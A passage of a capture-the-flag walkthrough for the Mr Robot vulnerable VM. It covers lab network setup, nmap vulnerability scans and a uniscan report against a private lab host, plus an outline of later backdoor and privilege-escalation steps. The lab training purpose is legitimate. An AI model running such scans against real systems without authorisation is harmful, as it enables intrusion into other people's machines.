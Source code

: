 <H1>Mr Robot</H1>
<p></p>
<H2>What is it?</H2>
<p></p>
Mr Robot is a vulnerable VM that can be downloaded from <a href="https://www.vulnhub.com/entry/mr-robot-1,151/" rel="nofollow">VulnHub</a> so that you can host it locally or you can complete it on <a href="https://tryhackme.com/room/mrrobot" rel="nofollow">TryHackMe</a>. Mr Robot is a free room on TryHackMe so anyone can do it without needing to subscribe (however I do strongly recommend subscribing to TryHackMe). The difference being that when you host the VM locally it will run faster and your brute forcing will occur quicker because you aren't tunneling through a VPN; however, you don't have the bonus of submitting the flags as you find them.
<p></p>
Mr Robot is a themed box on the TV show also called Mr Robot, it contains 3 flags (web flag, user flag and root flag) and has different ways of completing the box to achieve the same outcome. Doing this box you will cover the following areas:
<p></p>
<H5>Enumeration</H5>
- Network Scanning (Nmap)
<H5>Web Recon</H5>
- Recon (Nikto,gobuster,dirb,uniscan)
<br>
- Web directory traversal/file access
<H5>Breaking into a badly configured login page</H5>
- Setting up a dictionary file for username and password enumeration/cracking
<br>
- WordPress password cracking (wpscan,hydra)
<H5>Generating Backdoors</H5>
- Generate PHP Backdoor (Msfvenom)
<br>
- Upload and execute a backdoor
<H5>Catching the reverse conection on your host</H5>
- Reverse connection (Metasploit)
<H5>Identifying and cracking a hash</H5>
- Getting a hash and decrypting it
<H5>Getting a TTY shell</H5>
- Import python one-liner for proper TTY shell
<H5>Privilege Escalation</H5>
- One liner, WinPEAS,
<br>
- binary, dirtysock
<p></p>
All flags have the following flag format:
<p></p>
key-1-of-3.txt
<br>
And when opened look like a random string of characters eg. ABCDENOASFINEAUINFAOPDSNFRUENPANFD
<p></p>
As stated before one flag is located on the website itself, one is located in the user folder and the final is located in the root folder.
<p></p>
<H2>Locally Hosting the VM</H2>
<details>
    <summary></summary>
<p></p>
The first thing you need to do is download the mrRobot.ova file from <a href="https://www.vulnhub.com/entry/mr-robot-1,151/" rel="nofollow">VulnHub</a> (<a href="https://download.vulnhub.com/mrrobot/mrRobot.ova" rel="nofollow">Download link</a>).
<br>
Now that you have the .ova file you need open it in either <a href="https://www.virtualbox.org/" rel="nofollow">Virtual Box</a> or <a href="https://www.vmware.com/au/products/workstation-player.html" rel="nofollow">VMWare</a>.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/2429ae9e3f58140ed5905513114b710f0153067e/Starting_Point/VulnHub/MrRobot/images/open.png"><br>
</div>
<p></p>
This will then direct you to the import screen, give the VM a name and store it in a folder on your system somewhere.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/2429ae9e3f58140ed5905513114b710f0153067e/Starting_Point/VulnHub/MrRobot/images/import.png"><br>
</div>
<p></p>
This will then import the machine and you will be able to see it on the left hand panel once completed, the last thing you need to do is confirm the network settings. Below you can see that I have highlighted the network setting for the VM, it should be Host-only.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/2429ae9e3f58140ed5905513114b710f0153067e/Starting_Point/VulnHub/MrRobot/images/bridged.png"><br>
</div>
<p></p>
If it isn't set as Host-only you can click on the network which will bring you into network settings as displayed below.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/2429ae9e3f58140ed5905513114b710f0153067e/Starting_Point/VulnHub/MrRobot/images/network.png"><br>
</div>
<p></p>
You can now start your Mr Robot VM and let it run, you don't need to do anything further with it.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/2429ae9e3f58140ed5905513114b710f0153067e/Starting_Point/VulnHub/MrRobot/images/logon.png"><br>
</div>
<p></p>
We now need to make some changes to our penetration VM, looking at the settings we can see that there is only one network adapter that is set to NAT.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/17c7433328d45f62ef541af78f404d6556d848be/Starting_Point/VulnHub/MrRobot/images/penbox.png"><br>
</div>
<p></p>
We can add another adapter though the settings to do this right click on the VM name in the left panel.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/17c7433328d45f62ef541af78f404d6556d848be/Starting_Point/VulnHub/MrRobot/images/settings.png"><br>
</div>
<p></p>
Next we need to add another adapter, to do this we click on add at the bottom of the settings screen.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/17c7433328d45f62ef541af78f404d6556d848be/Starting_Point/VulnHub/MrRobot/images/add.png"><br>
</div>
<p></p>
We then click on Network Adapter then click finish.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/17c7433328d45f62ef541af78f404d6556d848be/Starting_Point/VulnHub/MrRobot/images/networkadapter.png"><br>
</div>
<p></p>
We can see that Network Adapter 2 has been created, we need to click on that adapter and select Host-only followed by ok.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/17c7433328d45f62ef541af78f404d6556d848be/Starting_Point/VulnHub/MrRobot/images/adapter2.png"><br>
</div>
<p></p>
Now that we have done this process we can start our penetration VM and begin the challenge. The reason that I do it this way is so that my penetration VM keeps internet connection and has a direct link to the target VM (mrRobot). If we put both VM's on Host-only our penetration VM would lose internet connectivity. 
<br>
We can confirm that the adapter is working by logging into our penetration VM and running the following command:
<p></p>

```
sudo ifconfig
```

<p></p>
Which returns something like this:
<p></p>

```
❯ sudo ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.191.129  netmask 255.255.255.0  broadcast 192.168.191.255
        inet6 fe80::11ec:b5d:f22:834f  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:df:18:d9  txqueuelen 1000  (Ethernet)
        RX packets 24843  bytes 33147054 (31.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10896  bytes 920671 (899.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.125.134  netmask 255.255.255.0  broadcast 192.168.125.255
        inet6 fe80::744b:c7cf:2382:75d3  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:df:18:e3  txqueuelen 1000  (Ethernet)
        RX packets 5  bytes 875 (875.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 34  bytes 2534 (2.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 25070  bytes 14986245 (14.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 25070  bytes 14986245 (14.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

<p></p>
We can see that eth1 has been added as interface and it has an ip next to inet.
<p></p>
We can now begin hacking our target machine.
<p></p>
The process is basically identical for Virtual Box however I prefer using VMWare.

</details>


<hr>
<p></p>
<H2>Walkthrough</H2>
<p></p>
<details>
    <summary></summary>
<p></p>
Our first step in this box is to enumerate the network IOT locate the VM. We do this using <kbd>nmap</kbd> however there are some additional flags and steps we use. The command we will run first is:
<p></p>

```
nmap -e eth1 -T5 192.168.125.0/24
```

<p></p>
Looking at this command we used the <kbd>-e</kbd> flag to let nmap know which interface we want to use for the scan, the <kbd>-T5</kbd> flag tells nmap to do the fastest scan possible and the network we scanned against was the network we identified when we ran <kbd>ifconfig</kbd>.
<br>
This command returns:
<p></p>

```
❯ nmap -e eth1 -T5 192.168.125.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-08 13:29 AEST
Nmap scan report for 192.168.125.132
Host is up (0.016s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Nmap scan report for 192.168.125.134
Host is up (0.035s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE
111/tcp open  rpcbind
```

<p></p>
Looking through the results we can identify our own ip address <kbd>192.168.125.134</kbd> and one other ip <kbd>192.168.125.132</kbd> we can therefore determine that the second ip is our target VM. Time for further enumeration with nmap. This time the command will look like this:
<p></p>

```
sudo nmap -e eth1 -A -vvv --script vuln -oN nmap.txt 192.168.125.132
```

<p></p>
For this command, we use the <kbd>-e</kbd> flag to direct nmap to our desired network interface, ,<kbd>-A</kbd> to run all scripts, <kbd>-vvv</kbd> to give very verbose output, <kbd>--script vuln</kbd> to run the vulnerability script against the machine, this is extremely helpful and does a lot of enumeration for us which we can see in the output, <kbd>-oN nmap.txt</kbd> outputs the scan to a text file se we can refer to it later and finally the ip address we wish to scan.
This command outputs the following:
<p></p>


```
# Nmap 7.91 scan initiated Thu Jul  8 13:41:13 2021 as: nmap -e eth1 -A -vvv --script vuln -oN nmap.txt 192.168.125.132
Nmap scan report for 192.168.125.132
Host is up, received arp-response (0.0019s latency).
Scanned at 2021-07-08 13:41:24 AEST for 94s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT    STATE  SERVICE  REASON         VERSION
22/tcp  closed ssh      reset ttl 64
80/tcp  open   http     syn-ack ttl 64 Apache httpd
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.125.132
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.125.132:80/js/BASE_URL+%22/live/%22);this.firstBoot?(this.firstBoot=!1,this.track.omni("Email
|     Form id: 
|     Form action: http://192.168.125.132/
|     
|     Path: http://192.168.125.132:80/js/BASE_URL+%22/live/%22);this.firstBoot?(this.firstBoot=!1,this.track.omni("Email
|     Form id: 
|     Form action: http://192.168.125.132/
|     
|     Path: http://192.168.125.132:80/js/rs;if(s.useForcedLinkTracking||s.bcf){if(!s."+"forcedLinkTrackingTimeout)s.forcedLinkTrackingTimeout=250;setTimeout('if(window.s_c_il)window.s_c_il['+s._in+'].bcr()',s.forcedLinkTrackingTimeout);}else
|     Form id: 
|     Form action: http://192.168.125.132/
|     
|     Path: http://192.168.125.132:80/js/rs;if(s.useForcedLinkTracking||s.bcf){if(!s."+"forcedLinkTrackingTimeout)s.forcedLinkTrackingTimeout=250;setTimeout('if(window.s_c_il)window.s_c_il['+s._in+'].bcr()',s.forcedLinkTrackingTimeout);}else
|     Form id: 
|     Form action: http://192.168.125.132/
|     
|     Path: http://192.168.125.132:80/js/u;c.appendChild(o);'+(n?'o.c=0;o.i=setTimeout(f2,100)':'')+'}}catch(e){o=0}return
|     Form id: 
|     Form action: http://192.168.125.132/
|     
|     Path: http://192.168.125.132:80/js/u;c.appendChild(o);'+(n?'o.c=0;o.i=setTimeout(f2,100)':'')+'}}catch(e){o=0}return
|     Form id: 
|     Form action: http://192.168.125.132/
|     
|     Path: http://192.168.125.132:80/js/vendor/null,this.tags.length=0%7d,t.get=function()%7bif(0==this.tags.length)return
|     Form id: 
|     Form action: http://192.168.125.132/
|     
|     Path: http://192.168.125.132:80/js/vendor/null,this.tags.length=0%7d,t.get=function()%7bif(0==this.tags.length)return
|     Form id: 
|     Form action: http://192.168.125.132/
|     
|     Path: http://192.168.125.132:80/js/BASE_URL+%22/live/
|     Form id: 
|     Form action: http://192.168.125.132/
|     
|     Path: http://192.168.125.132:80/js/BASE_URL+%22/live/
|     Form id: 
|     Form action: http://192.168.125.132/
|     
|     Path: http://192.168.125.132:80/wp-login.php
|     Form id: loginform
|_    Form action: http://192.168.125.132/wp-login.php
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /feed/: Wordpress version: 4.3.1
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-server-header: Apache
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
443/tcp open   ssl/http syn-ack ttl 64 Apache httpd
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.125.132
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: https://192.168.125.132:443/js/BASE_URL
|     Form id: 
|     Form action: https://192.168.125.132:443/
|     
|     Path: https://192.168.125.132:443/js/BASE_URL
|     Form id: 
|     Form action: https://192.168.125.132:443/
|     
|     Path: https://192.168.125.132:443/js/vendor/null,this.tags.length=0%7d,t.get=function()%7bif(0==this.tags.length)return
|     Form id: 
|     Form action: https://192.168.125.132:443/
|     
|     Path: https://192.168.125.132:443/js/vendor/null,this.tags.length=0%7d,t.get=function()%7bif(0==this.tags.length)return
|     Form id: 
|     Form action: https://192.168.125.132:443/
|     
|     Path: https://192.168.125.132:443/js/u;c.appendChild(o);'+(n?'o.c=0;o.i=setTimeout(f2,100)':'')+'}}catch(e){o=0}return
|     Form id: 
|     Form action: https://192.168.125.132:443/
|     
|     Path: https://192.168.125.132:443/js/u;c.appendChild(o);'+(n?'o.c=0;o.i=setTimeout(f2,100)':'')+'}}catch(e){o=0}return
|     Form id: 
|     Form action: https://192.168.125.132:443/
|     
|     Path: https://192.168.125.132:443/js/rs;if(s.useForcedLinkTracking||s.bcf){if(!s."
|     Form id: 
|     Form action: https://192.168.125.132:443/
|     
|     Path: https://192.168.125.132:443/js/rs;if(s.useForcedLinkTracking||s.bcf){if(!s."
|     Form id: 
|     Form action: https://192.168.125.132:443/
|     
|     Path: https://192.168.125.132:443/wp-login.php
|     Form id: loginform
|_    Form action: https://192.168.125.132:443/wp-login.php
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /feed/: Wordpress version: 4.3.1
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-server-header: Apache
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_sslv2-drown: 
MAC Address: 00:0C:29:43:37:0E (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/8%OT=80%CT=22%CU=%PV=Y%DS=1%DC=D%G=N%M=000C29%TM=60E
OS:67442%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8
OS:)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B
OS:4ST11NW7%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120
OS:)ECN(R=Y%DF=Y%TG=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%TG=40%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%
OS:Q=)T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%TG=40%W=0%
OS:S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=N)IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.072 days (since Thu Jul  8 11:59:55 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   1.89 ms 192.168.125.132

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  8 13:42:58 2021 -- 1 IP address (1 host up) scanned in 105.32 seconds
```

<p></p>
Looking through the results we can see a lot of interesting information and a lot of enumeration that has been done for us just by using the vuln script.
<br>
We can see there are 3 ports, 22 (ssh), 80 (http), 443 (https).
<br>
The http enumeration is also extremely helpful as it has carried out the job of gobuster or dirb.
<p></p>

```
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /feed/: Wordpress version: 4.3.1
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
```

<p></p>
From this output we can see our website enumeration is done and we can see that there are a couple of files and a wordpress (version 4.3.1) hosted.
<p></p>
Since we ran the script to do enumeration for us we don't need to carry out any further enumeration ie. gobuster, dirb, uniscan however I will include them for your information below.
<p></p>



<details>
    <summary>Further Enumeration</summary>
<p></p>

<details>
    <summary>uniscan</summary>
<p></p>
Uniscan is a default scanner that comes with ParrotOS and kali, it has a very simple GUI interface:
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/acd6c27914258430c5418614a4129b71f690d48d/Starting_Point/VulnHub/MrRobot/images/uniscan.png"><br>
</div>
<p></p>
You can see that i have imputed the target ip address and selected the following options:
<br>
- Check Directory
<br>
- Check Files
<br>
- Check /robots.txt
<br>
- Dynamic tests
<br>
- Static tests
<br>
- Web Fingerprint
<br>
- Server Fingerprint
<p></p>
Uniscan creates a .html report in /usr/share/uniscan/reports/IPADDRESS.html
<p></p>
You can view this report by running:
<p></p>

```
firefox /usr/share/uniscan/reports/192.168.125.132 &
```

<p></p>
My report looks like <a href="https://github.com/Shadow-Admins/Cyber_Club/blob/main/Starting_Point/VulnHub/MrRobot/files/192.168.125.132.html" rel="nofollow">this</a>.
To see it correctly you would need to copy the code into a .html file then open it with firefox to look like this.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/4196fbf8efbffb56164027ae43bc4d0ca5eae580/Starting_Point/VulnHub/MrRobot/images/uniscanreport.png"><br>
</div>
<p></p>
The report information is:

```
####################################
# Uniscan project                  #
# http://uniscan.sourceforge.net/  #
####################################
V. 6.3


Scan date: 8-7-2021 14:58:19
===================================================================================================
| Domain: http://192.168.125.132/
| Server: Apache
| IP: 192.168.125.132
===================================================================================================
===================================================================================================
| Looking for Drupal plugins/modules
| 
===================================================================================================
| WEB SERVICES
| 
===================================================================================================
| FAVICON.ICO
| 
| Web service Found (favicon.ico): Zero byte favicon
===================================================================================================
| ERROR INFORMATION
| 
|          Page not found | user&#039;s Blog!    Skip to content    user&#039;s Blog! Just another WordPress site Menu and widgets         Search for:    Recent CommentsArchives  Categories No categories Meta Log in Entries RSS Comments RSS WordPress.org          Oops! That page can&rsquo;t be found.   It looks like nothing was found at this location. Maybe try a search?   Search for:           Proudly powered by WordPress   
|  400 Bad Request Bad Request Your browser sent a request that this server could not understand. 
===================================================================================================
| TYPE ERROR
| 
===================================================================================================
| SERVER MOBILE
| 
===================================================================================================
| LANGUAGE
| 
===================================================================================================
| INTERESTING STRINGS IN HTML
| 
===================================================================================================
| WHOIS
| 
| 
| 
| #
| 
| # ARIN WHOIS data and services are subject to the Terms of Use
| 
| # available at: https://www.arin.net/resources/registry/whois/tou/
| 
| #
| 
| # If you see inaccuracies in the results, please report at
| 
| # https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
| 
| #
| 
| # Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
| 
| #
| 
| 
| 
| 
| 
| NetRange:       192.168.0.0 - 192.168.255.255
| 
| CIDR:           192.168.0.0/16
| 
| NetName:        PRIVATE-ADDRESS-CBLK-RFC1918-IANA-RESERVED
| 
| NetHandle:      NET-192-168-0-0-1
| 
| Parent:         NET192 (NET-192-0-0-0-0)
| 
| NetType:        IANA Special Use
| 
| OriginAS:       
| 
| Organization:   Internet Assigned Numbers Authority (IANA)
| 
| RegDate:        1994-03-15
| 
| Updated:        2013-08-30
| 
| Comment:        These addresses are in use by many millions of independently operated networks, which might be as small as a single computer connected to a home gateway, and are automatically configured in hundreds of millions of devices.  They are only intended for use within a private context  and traffic that needs to cross the Internet will need to use a different, unique address.
| 
| Comment:        
| 
| Comment:        These addresses can be used by anyone without any need to coordinate with IANA or an Internet registry.  The traffic from these addresses does not come from ICANN or IANA.  We are not the source of activity you may see on logs or in e-mail records.  Please refer to http://www.iana.org/abuse/answers
| 
| Comment:        
| 
| Comment:        These addresses were assigned by the IETF, the organization that develops Internet protocols, in the Best Current Practice document, RFC 1918 which can be found at:
| 
| Comment:        http://datatracker.ietf.org/doc/rfc1918
| 
| Ref:            https://rdap.arin.net/registry/ip/192.168.0.0
| 
| 
| 
| 
| 
| 
| 
| OrgName:        Internet Assigned Numbers Authority
| 
| OrgId:          IANA
| 
| Address:        12025 Waterfront Drive
| 
| Address:        Suite 300
| 
| City:           Los Angeles
| 
| StateProv:      CA
| 
| PostalCode:     90292
| 
| Country:        US
| 
| RegDate:        
| 
| Updated:        2012-08-31
| 
| Ref:            https://rdap.arin.net/registry/entity/IANA
| 
| 
| 
| 
| 
| OrgAbuseHandle: IANA-IP-ARIN
| 
| OrgAbuseName:   ICANN
| 
| OrgAbusePhone:  +1-310-301-5820 
| 
| OrgAbuseEmail:  abuse@iana.org
| 
| OrgAbuseRef:    https://rdap.arin.net/registry/entity/IANA-IP-ARIN
| 
| 
| 
| OrgTechHandle: IANA-IP-ARIN
| 
| OrgTechName:   ICANN
| 
| OrgTechPhone:  +1-310-301-5820 
| 
| OrgTechEmail:  abuse@iana.org
| 
| OrgTechRef:    https://rdap.arin.net/registry/entity/IANA-IP-ARIN
| 
| 
| 
| 
| 
| #
| 
| # ARIN WHOIS data and services are subject to the Terms of Use
| 
| # available at: https://www.arin.net/resources/registry/whois/tou/
| 
| #
| 
| # If you see inaccuracies in the results, please report at
| 
| # https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
| 
| #
| 
| # Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
| 
| #
| 
| 
| 
===================================================================================================
| BANNER GRABBING: 
===================================================================================================
===================================================================================================
| PING
| 
| PING 192.168.125.132 (192.168.125.132) 56(84) bytes of data.
| 64 bytes from 192.168.125.132: icmp_seq=1 ttl=64 time=0.313 ms
| 64 bytes from 192.168.125.132: icmp_seq=2 ttl=64 time=1.24 ms
| 64 bytes from 192.168.125.132: icmp_seq=3 ttl=64 time=0.346 ms
| 64 bytes from 192.168.125.132: icmp_seq=4 ttl=64 time=0.420 ms
| 
| --- 192.168.125.132 ping statistics ---
| 4 packets transmitted, 4 received, 0% packet loss, time 3036ms
| rtt min/avg/max/mdev = 0.313/0.580/1.242/0.384 ms
===================================================================================================
| TRACEROUTE
| 
| traceroute to 192.168.125.132 (192.168.125.132), 30 hops max, 60 byte packets
|  1  * * *
|  2  * * *
|  3  * * *
|  4  * * *
|  5  * * *
|  6  * * *
|  7  * * *
|  8  * * *
|  9  * * *
| 10  * * *
| 11  * * *
| 12  * * *
| 13  * * *
| 14  * * *
| 15  * * *
| 16  * * *
| 17  * * *
| 18  * * *
| 19  * * *
| 20  * * *
| 21  * * *
| 22  * * *
| 23  * * *
| 24  * * *
| 25  * * *
| 26  * * *
| 27  * * *
| 28  * * *
| 29  * * *
| 30  * * *
===================================================================================================
| NSLOOKUP
| 
| Server:		192.168.191.2
| Address:	192.168.191.2#53
| 
| ** server can't find 132.125.168.192.in-addr.arpa: NXDOMAIN
===================================================================================================
| NMAP
| 
| Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-08 14:58 AEST
| NSE: Loaded 153 scripts for scanning.
| NSE: Script Pre-scanning.
| Initiating NSE at 14:58
| Completed NSE at 14:58, 0.00s elapsed
| Initiating NSE at 14:58
| Completed NSE at 14:58, 0.00s elapsed
| Initiating NSE at 14:58
| Completed NSE at 14:58, 0.00s elapsed
| Initiating ARP Ping Scan at 14:58
| Scanning 192.168.125.132 [1 port]
| Completed ARP Ping Scan at 14:58, 0.07s elapsed (1 total hosts)
| Initiating Parallel DNS resolution of 1 host. at 14:58
| Completed Parallel DNS resolution of 1 host. at 14:59, 6.53s elapsed
| Initiating SYN Stealth Scan at 14:59
| Scanning 192.168.125.132 [1000 ports]
| Discovered open port 443/tcp on 192.168.125.132
| Discovered open port 80/tcp on 192.168.125.132
| Completed SYN Stealth Scan at 14:59, 4.59s elapsed (1000 total ports)
| Initiating Service scan at 14:59
| Scanning 2 services on 192.168.125.132
| Completed Service scan at 14:59, 12.03s elapsed (2 services on 1 host)
| Initiating OS detection (try #1) against 192.168.125.132
| NSE: Script scanning 192.168.125.132.
| Initiating NSE at 14:59
| Completed NSE at 14:59, 0.26s elapsed
| Initiating NSE at 14:59
| Completed NSE at 14:59, 0.04s elapsed
| Initiating NSE at 14:59
| Completed NSE at 14:59, 0.00s elapsed
| Nmap scan report for 192.168.125.132
| Host is up (0.0017s latency).
| Not shown: 997 filtered ports
| PORT    STATE  SERVICE  VERSION
| 22/tcp  closed ssh
| 80/tcp  open   http     Apache httpd
| |_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| | http-methods: 
| |_  Supported Methods: GET HEAD POST OPTIONS
| |_http-server-header: Apache
| |_http-title: Site doesn't have a title (text/html).
| 443/tcp open   ssl/http Apache httpd
| |_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| | http-methods: 
| |_  Supported Methods: GET HEAD POST OPTIONS
| |_http-server-header: Apache
| |_http-title: Site doesn't have a title (text/html).
| | ssl-cert: Subject: commonName=www.example.com
| | Issuer: commonName=www.example.com
| | Public Key type: rsa
| | Public Key bits: 1024
| | Signature Algorithm: sha1WithRSAEncryption
| | Not valid before: 2015-09-16T10:45:03
| | Not valid after:  2025-09-13T10:45:03
| | MD5:   3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
| |_SHA-1: ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b
| MAC Address: 00:0C:29:43:37:0E (VMware)
| Device type: general purpose
| Running: Linux 3.X|4.X
| OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
| OS details: Linux 3.10 - 4.11
| Uptime guess: 0.126 days (since Thu Jul  8 11:58:29 2021)
| Network Distance: 1 hop
| TCP Sequence Prediction: Difficulty=254 (Good luck!)
| IP ID Sequence Generation: All zeros
| 
| TRACEROUTE
| HOP RTT     ADDRESS
| 1   1.75 ms 192.168.125.132
| 
| NSE: Script Post-scanning.
| Initiating NSE at 14:59
| Completed NSE at 14:59, 0.00s elapsed
| Initiating NSE at 14:59
| Completed NSE at 14:59, 0.00s elapsed
| Initiating NSE at 14:59
| Completed NSE at 14:59, 0.00s elapsed
| Read data files from: /usr/bin/../share/nmap
| OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
| Nmap done: 1 IP address (1 host up) scanned in 25.52 seconds
|            Raw packets sent: 2029 (90.970KB) | Rcvd: 19 (1.130KB)
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://192.168.125.132/Image/
| [+] CODE: 200 URL: http://192.168.125.132/admin/
| [+] CODE: 200 URL: http://192.168.125.132/feed/
| [+] CODE: 200 URL: http://192.168.125.132/image/
| [+] CODE: 200 URL: http://192.168.125.132/login/
| [+] CODE: 200 URL: http://192.168.125.132/rss/
| [+] CODE: 200 URL: http://192.168.125.132/wp-login/
| [+] CODE: 200 URL: http://192.168.125.132/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://192.168.125.132/admin/index.html
| [+] CODE: 200 URL: http://192.168.125.132/admin/index.php
| [+] CODE: 200 URL: http://192.168.125.132/favicon.ico
| [+] CODE: 200 URL: http://192.168.125.132/index.html
| [+] CODE: 200 URL: http://192.168.125.132/index.html%20
